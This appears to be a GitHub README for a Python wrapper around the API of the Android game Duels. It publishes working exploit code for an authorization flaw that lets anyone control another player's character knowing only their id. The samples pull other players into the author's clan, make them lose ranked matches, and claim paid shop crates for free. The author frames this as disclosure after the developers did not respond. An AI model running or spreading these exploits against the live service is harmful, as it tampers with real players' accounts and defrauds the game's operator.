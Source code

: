 A simple wrapper for [Duels](https://play.google.com/store/apps/details?id=com.deemedyainc.duels&hl=en_US) API game on Android 
This game have many issue 
Example code from game.py
```
from duels_api import User
import cfg

me = User(cfg.my_id)
print(me)

members = me.get_self_clan_members()
for player in members:
    print(player)
```

The main vulnerability of this game is that you can control the character of any player knowing only his id

With this code u can add ANY player to you clan and defeat all players from him ranked group
```
me = User(cfg.my_id)
print(me)

members = me.search_clans()
for player in members:
    player.leave_clan()
    player.join_clan(me.clan_id)
    
    player.defeat_group()
```

Also you can take any crate from shop absolutely free

```
me = User(cfg.my_id)
print(me)
me.get_special_crate()
```


I already wrote to the developers of this game but they didn’t respond, so I decided to share this code. Maybe after that they will pay attention to these problems.
